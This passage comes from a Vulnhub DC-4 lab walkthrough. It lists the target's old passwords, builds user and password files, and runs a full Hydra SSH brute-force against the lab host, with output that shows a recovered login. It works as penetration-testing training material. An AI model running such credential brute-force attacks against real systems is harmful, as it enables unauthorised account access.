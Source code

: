 ```bash
hardcore
cowboys
sydney
alex
scorpio
1234512345
q12345
qq123456
onelove
bond007
abcdefg1
eagles
crystal1
azertyuiop
winter
sexy12
angelina
james
svetlana
fatima
123456k
icecream
popcorn1
www-data@dc-4:/usr/share/nginx/html$  
```
Copy the content of the old passwords and let's create the old password list on our attacker machine. Next we have to create a user list before trying them to brute force with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ nano old-passwords.bak

┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ nano users.txt        
```
Now let's brute force the SSH service with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ hydra -L users.txt -P old-passwords.bak $ip ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 14:05:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 756 login tries (l:3/p:252), ~48 tries per task
[DATA] attacking ssh://10.0.2.33:22/
[STATUS] 136.00 tries/min, 136 tries in 00:01h, 624 to do in 00:05h, 12 active
[STATUS] 100.00 tries/min, 300 tries in 00:03h, 460 to do in 00:05h, 12 active
[STATUS] 93.71 tries/min, 656 tries in 00:07h, 104 to do in 00:02h, 12 active
[22][ssh] host: 10.0.2.33   login: jim   password: jibril04
[STATUS] 94.62 tries/min, 757 tries in 00:08h, 3 to do in 00:01h, 12 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 14:14:02

```
